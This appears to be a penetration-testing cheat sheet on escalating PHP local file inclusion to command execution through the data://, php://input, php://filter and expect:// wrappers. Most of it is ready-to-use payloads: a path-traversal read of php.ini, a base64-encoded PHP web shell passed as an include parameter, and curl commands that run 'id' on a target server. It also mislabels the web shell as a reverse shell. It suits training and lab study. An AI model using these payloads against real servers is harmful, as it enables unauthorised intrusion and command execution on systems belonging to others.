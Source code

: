 
### DATA WRAPPER

Data wrapper can be used to get external data or PHP code, but can only be used if (allow_url_include) setting is enabled in PHP config. which can be checked in the php configuration file. (x.y is the version).

Apache = /etc/php/X.Y/apache2/php.ini
Nginx = /etc/php/X.Y/fpm/php.ini

1. Will need to use the base64 url encode filter as ini files could also break with output. payload starts at php://filter

`/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini`

2. On local machine, create a base64 encoded php reverse shell that can be copied and pasted as the LFI payload

```CLI
echo '<?php system($_GET["cmd"]); ?>' | base64
```


 3. Then url encode that b64 payload and enter in data wrapper LFI and add ?cmd=<Command injection>

`data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

*Data wrapper can also be used in a cURL command*

```CLI
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

### Input Wrapper

Same requirements and step as the Data wrapper, except the input wrapper relies on a POST request.

```cli
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

 If it only accepts posts requests, the payload can be a command directly in php code

```php
<\?php system('id')?>
```

### Expect Wrapper

Allows for command to get inputted directly in URL stream. The 'parameter=expect' need to be set in the php configuration.

To excute, add the command at the end.
```cli
curl -s "http://SERVER_IP:PORT/index.php?language=expect://id"
```

